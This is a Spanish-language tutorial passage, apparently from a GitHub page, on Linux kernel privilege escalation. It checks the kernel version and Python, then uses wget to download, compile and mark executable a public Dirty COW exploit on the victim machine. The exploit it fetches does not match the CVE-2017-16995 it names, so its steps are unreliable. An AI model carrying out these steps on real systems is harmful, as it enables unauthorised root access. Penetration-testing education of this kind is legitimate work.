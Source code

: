 
### ⚙️ Requisitos previos

- Python 3 instalado (ya viene en Kali y Ubuntu)
- Compilador GCC (para compilar exploits si es necesario)
- Acceso inicial como **usuario no root** en la máquina víctima
- Tener identificada una vulnerabilidad del kernel

---

### 📌 CVE de ejemplo: `CVE-2017-16995` (kernel Ubuntu < 4.4.0-116)

Esta vulnerabilidad permite **ejecutar código como root** desde un proceso con privilegios bajos.

---

#### 🔍 Paso 1: Verificar versión del kernel

En la víctima:

```bash
uname -a
```

Ejemplo de salida:

```bash
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP ...
```

✅ La versión `4.4.0-62` es vulnerable a `CVE-2017-16995`.

---

#### 🔎 Paso 2: Ver si tienes acceso a Python

```bash
which python3
```

O:

```bash
python3 --version
```

✅ Necesitas Python para ejecutar scripts de exploit o cargar payloads como shells.

---

#### 💣 Paso 3: Descargar un exploit (en entorno controlado)

> Muchos exploits del kernel están escritos en **C**, pero puedes **usarlos desde Python**, automatizar su ejecución o incrustar payloads.

##### Ejemplo: Descargar un exploit público

```bash
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -O /tmp/dirty.c
gcc /tmp/dirty.c -o /tmp/dirty -pthread
chmod +x /tmp/dirty
```

